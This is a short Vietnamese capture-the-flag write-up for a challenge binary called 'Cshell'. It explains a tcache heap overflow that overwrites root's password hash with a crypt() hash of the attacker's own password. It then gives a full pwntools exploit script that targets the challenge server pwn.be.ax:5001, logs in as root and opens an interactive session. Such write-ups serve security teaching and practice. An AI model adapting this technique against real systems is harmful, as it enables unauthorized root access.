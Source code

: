 ----- Heap overflow :<

Xác định địa chỉ đã được free ở Tcache : 
```
Eric_buff : 0x80 (0x90) 
Charlie_buff : 0x50 (0x60) 
```
Như chúng ta thấy thì địa chỉ trước của Eric_buff sẽ gần với root hơn nên chúng ta sẽ xin cấp phát vào chỗ này.

Sau đó check string pass được tạo ra bằng hàm crypt() của user mình mới nhập vào. Tính toán offset và đưa chuỗi crypt() của pass đè lên pass của root, lúc đó pass user = pass root.

#### Exploit:

```
from pwn import * 

BIN = "./Cshell"

top_heap = 0x5186b0 
username = b"malwar3"
pswd = b"s4db0iz"
crypt_pass = b"13uA68F2TJ9vI"

def exploit():
	io.recvuntil("> ")
	io.sendline(username)
	io.recvuntil("> ")
	io.sendline(pswd)
	io.recvuntil("> ")
	io.sendline(b"120")
	payload = b"a"*187 + crypt_pass
	io.recvuntil("> ")
	io.sendline(payload)
	io.recvuntil("Choice > ")
	io.sendline(b"1")
	io.recvuntil("Username:")
	io.sendline("root")
	io.recvuntil("Password:")
	io.sendline(pswd)
	io.recvuntil("Choice >")
	io.sendline(b"3")
	io.interactive()


io = remote("pwn.be.ax", 5001)
#io = process(BIN)
exploit()
```
